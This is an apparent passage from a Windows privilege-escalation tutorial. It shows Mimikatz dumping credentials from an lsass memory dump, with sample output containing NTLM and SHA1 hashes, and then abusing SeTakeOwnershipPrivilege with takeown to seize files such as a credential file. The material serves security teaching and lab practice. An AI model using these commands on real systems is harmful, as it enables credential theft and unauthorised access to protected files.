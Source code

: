 Now that we have the lsass dump (```lsass.dmp```), we can run [Mimikatz](https://www.kali.org/tools/mimikatz/) (you can also use the [github repo](https://github.com/ParrotSec/mimikatz)).

```posh
mimikatz.exe
```

When on Mimikatz, we will try to dump password hashes :

```posh
mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
<SNIP>
Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : bob
Domain            : WIN-TEST
Logon Server      : WIN-TEST
Logon Time        : 9/2/2022 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : bob
         * Domain   : WIN-TEST
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
<SNIP>
```


### SeTakeOwnershipPrivilege


The ```SeTakeOwnershipPrivilege``` policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads.

First we can check who has the ownership of the file we are targeting :

```posh
PS > Get-ChildItem -Path 'C:\Users\bob\Desktop\Secret_Data.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

If there is no name on the ```Owner``` section, you can look a the owner of the directory where the file is located with the ```dir /q``` command. Now we can take the ownership :

```posh
PS > takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

If we still can't read the file, we can use the ```icacls``` command to change its Access Control Lists (ACL) :
